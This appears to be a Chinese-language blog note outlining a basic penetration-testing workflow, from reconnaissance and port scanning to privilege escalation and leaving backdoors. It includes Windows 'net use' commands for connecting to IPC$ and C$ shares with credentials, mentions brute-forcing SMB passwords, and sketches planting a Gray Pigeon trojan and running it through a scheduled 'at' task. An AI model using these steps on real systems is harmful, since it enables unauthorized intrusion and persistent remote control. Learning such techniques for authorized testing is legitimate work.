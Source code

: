```yaml
---
title: "渗透测试基本流程"
date: "Mon May 01 2023 08:00:00 GMT+0800 (中国标准时间)"
author: "作者"
category: "网络安全"
tags: ["笔记","网络安全","Web安全"]
excerpt: "Web安全、网络安全、笔记"
toc: true
draft: false
featured: false
---
```



# 渗透测试基本流程

# 0. 授权

# 1. 信息收集

nslookup

whois

# 2. 扫描漏洞

namp = ip 范围  端口 80 （IIS，apache，什么网站）

**scanport扫描445端口**

## 高级扫描：

如IIS漏洞2003-IIS6.0  2008IIS7.0   扫描网站漏洞（）

# 3. 漏洞利用

# 4. 提权（shell环境、桌面环境、最高权限）

# 5. 留后门

# 6. 渗透测试报告

### 手工测试端口号开放：

### telnet IP地址  测试端口

### 445漏洞利用之 IPC$:

net use f:\\10.1.1.1\share  密码 /user:用户名

net use f:\\10.1.1.1\c$  密码 /user:用户名

```cpp
**net use  \\10.1.1.1\ipc$  密码 /user:用户名**
```

### 暴力破解系统密码之445

![](https://cdn.jsdelivr.net/gh/yy0691/img-bed@main/Net_Safe_Notion/Untitled%2067.png)

## 制作木马

```cpp
//利用灰鸽子软件
copy  //植入木马  
time  //查看时间  
net time //查看对方时间

at \\10.1.1.1 12:18 "c:\windows\system\xx.exe"  //设置定时任务
```